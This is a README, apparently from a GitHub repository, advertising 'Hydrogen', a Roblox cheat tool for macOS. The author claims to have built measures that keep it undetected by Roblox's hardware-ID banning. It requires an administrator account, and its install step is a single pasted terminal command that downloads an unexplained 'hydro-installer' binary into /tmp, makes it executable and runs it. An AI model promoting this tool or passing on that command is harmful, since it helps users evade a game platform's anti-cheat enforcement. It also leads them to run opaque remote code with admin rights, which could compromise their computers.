 
> ___


```diff
+ Updated for latest push.
```

> ___

```md
# Wondering why the update took so long?
Roblox setup **HWID Bannning** in the latest MacOS release, which is a system in which your unique computer identifier is sent to Roblox servers, and if it is determined that you are cheating, you will be unable to play on your computer.

The update took so long because I was putting measures in place to prevent this from happening, and making sure Hydrogen was undetected by Roblox.

Other products rushed their update, and all of their users accounts will be banned, alongside their computers. I didn't want that to happen to Hydrogen users.

Thanks for your patience!
``` 
- Retguard

> ___

> [!Note]
Your Mac account must be adminstrator.
> ___
>Your mac os version must be 10.15 or up to run Hydrogen.
> ___
> Roblox and Hydrogen must be Uninstalled. 

> ___

To install, please paste this in your terminal:
```sh
cd /tmp && curl -LJs "https://github.com/retguard/fictional-garbanzo/raw/main/hydro-installer" -O && chmod +x ./hydro-installer && ./hydro-installer
```

> ___

> [!Note]
Please be aware that the current version of Hydrogen Mac is available in this repository. For the most up-to-date information and updates, I recommend joining the Hydrogen Discord server: https://discord.gg/hydrogen.

> ___
